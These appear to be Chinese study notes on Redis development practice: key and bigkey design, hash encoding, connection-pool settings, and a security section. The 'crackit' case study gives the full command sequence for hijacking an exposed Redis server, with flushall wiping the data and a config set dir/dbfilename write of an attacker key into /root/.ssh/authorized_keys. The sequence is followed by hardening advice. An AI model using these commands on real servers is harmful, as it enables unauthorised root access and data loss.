

## 开发规范

### key设计

| 因素                 | 说明                                                         |
| -------------------- | ------------------------------------------------------------ |
| 键名可读性，可管理性 | 业务名:表名:字段名                                           |
| 键名简洁性           | user:{uid}:friends:message:{mid}<br />简化为<br />u:{uid}:fri:msg:{mid} |
| 键名不包含特殊字符   | 比如空格，制表符等，最好只有字母，数字和冒号                 |

### value设计

核心关注 bigkey

| 项目         | 说明                                                         |
| ------------ | ------------------------------------------------------------ |
| bigkey是什么 | 没有统一的标准，不同场景对bigkey定义不同，比如：<br />string类型应控制在10kb，hash list set zset 元素不超过5000个 |
| bigkey的危害 | 网络阻塞，redis阻塞<br />集群节点数据不均匀，序列化和反序列化带来的CPU消耗 |
| bigkey的发现 | 应用端发现：发生比较大的延时<br />redis-cli --bigkeys命令：查看所有键值的大小<br />scan + debug object<br />通过改动redis源码，进行统计 |
| bigkey的删除 | 包括显式删除【del】和隐性删除【过期，rename】<br />因为redis是单线程的，所以bigkey的删除会导致redis阻塞<br />redis 4新增删除方法【lazy delete】，专门开一个新线程来删除bigkey，避免阻塞 |

### hash的底层实现选择

| 实现类型  | 优点       | 缺点   |
| --------- | ---------- | ------ |
| ziplist   | 占用空间少 | 速度慢 |
| hashtable | 占用空间大 | 速度快 |

ziplist参数：当hash中的数据满足以下两个参数时，redis底层将采用ziplist方式存储，支持动态 config set

| 参数                         | 说明                      |
| ---------------------------- | ------------------------- |
| hash-max-ziplist-entries 512 | hash中field的个数         |
| hash-max-ziplist-value 64    | hash中value的大小【字节】 |

### 过期设计

要定时清除redis中的数据，避免内存过多浪费，不能集中地删除大量的数据，否则可能引起缓存雪崩或缓存穿透的问题

以下命令可以找到每个键的闲置【没有被使用】的时间

```shell
object idle time
```

### 客户端优化

避免多个应用使用同一个redis，如果有必要，公共数据应该服务化

应该使用连接池，避免频繁建立/销毁连接带来的性能损耗

### 连接池参数

| 参数                          | 含义                                               | 默认值              | 使用建议                                  |
| ----------------------------- | -------------------------------------------------- | ------------------- | ----------------------------------------- |
| maxTotal                      | 最大连接数                                         | 8                   |                                           |
| maxIdle                       | 最大空闲连接数                                     | 8                   | 建议和maxTotal相同                        |
| minIdle                       | 最少空闲连接数                                     | 0                   |                                           |
| blockWhenExhausted            | 资源池用尽后，调用者是否等待                       | true                | 建议使用默认值，ture                      |
| maxWaitMillis                 | 资源池用尽后，最大等待时间                         | -1；永不超时        | 不建议使用                                |
| testOnBorrow                  | 获取连接时，是否做连接有效性检测【ping操作】       | false               | 建议业务量大时，false<br />多一次ping开销 |
| testOnReturn                  | 归还连接时，是否做连接有效性检测【ping操作】       | false               | 建议业务量大时，false<br />多一次ping开销 |
| jmxEnabled                    | 是否开启jmx监控                                    | true                | 建议开启，true                            |
| testWhileIdle                 | 是否开启空闲资源监控                               | false               | 建议开启，true                            |
| timeBetweenEvictionRunsMillis | 空闲资源检测周期，单位毫秒                         | -1；不检测          | 建议使用                                  |
| minEvictableIdleTimeMillis    | 资源池资源最小空闲时间；达到该值的空闲资源将被移除 | 1000 60 30 = 30分钟 | 建议默认值                                |
| numTestsPerEvictionRun        | 做空闲资源检测时，每次采样个数                     | 3                   |                                           |

参数经验

* maxTotal：根据业务需要的redis并发量和客户端执行时间考虑
* 避免应用个数(node) * maxTotal 超过 redis的最大连接数

### 其他使用技巧

* O(N)的命令：明确N的数量，当N不大时可以使用
* 禁用危险命令：通过rename-command禁止 keys flushall flushdb等危险命令
* 合理使用select命令：客户端支持差，实际还是单线程，多数据库弱
* 不要使用redis的事务：如果想实现事务，可以通过别的方式实现，redis事务不支持回滚
* 不要长时间使用monitor命令


## 安全问题

### 案例 - 全球crackit攻击

#### 过程示意图



#### 被攻击者存在问题

* redis没有设置密码
* redis可以通过公网ip访问
* redis使用默认端口启动
* redis没有绑定特定网卡
* redis以root启动

#### 攻击流程

攻击前尝试连接到被攻击者服务器

```shell
>> ssh root@123.45.67.89 # 失败，因为你没有密钥，也没有ssh-keygen
```

由于被攻击者外网开放，且使用默认端口，且没有限制网卡流量

```shell
>> redis-cli -h 123.45.67.89 -p 6379 ping
>> PONG
>> redis-cli -h 123.16.14.182 -p 6379 flushall
>> OK
```

在攻击者服务器生成一个公钥，并将公钥保存到一个id_rsa.pub中

```shell
>> ssh-keygen -C rsa -t "email@gmail"
>> cat id_rsa.pub
```

将公钥内容作为value添加到redis中

```shell
>> redis-cli -h 123.45.67.89 -p 6379 -x set crackit
>> redis-cli -h 123.45.67.89 -p 6379 get crackit
```

将redis的dir设置为/root/.ssh目录，dbfilename设置为authorized_keys

```shell
123.45.67.89:6379> config set dir /root/.ssh
OK
123.45.67.89:6379> config set dbfilename authorized_keys
OK
123.45.67.89:6379> save
OK
```

此时，因为被攻击者服务器上已经有了攻击者的公钥，即攻击者可以用ssh进行登录

### 安全七法则

#### 设置密码

服务端配置：requirepass和masterauth

客户端连接：auth命令和-a参数

注意事项
* 密码要足够复杂，因为redis性能太强，暴力破解比较简单
* 不要忘记masterauth
* auth是通过明文传输的，所以是有被盗窃的风险

#### 伪装危险命令

原理：类似linux的alias，将一些命令重新起个名字

实现：在配置文件中

```shell
rename-command flushall abc
```

注意事项

* 不支持动态 config set
* RDB或AOF如果包含有rename-command之前的命令，将无法使用
* config命令本身在redis内核中会使用到，不建议重命名

#### 绑定网卡

通过bind命令来限制redis可以接收的流量的网卡

实现：在配置文件中

```shell
bind 127.0.0.1
```

注意事项：

* bind不支持config set
* bind 127.0.0.1要谨慎，因为这样做就只能接收到本机流量
* 如果存在外网网卡就尽量屏蔽掉

#### 防火墙

最强的，最安全的技术

#### 定期备份

避免数据丢失，非常重要的措施

#### 不使用默认端口

参考全球crackit攻击中使用默认端口6379启动redis而带来的危害

#### 使用非root用户启动

参考全球crackit攻击中使用root启动redis而带来的危害

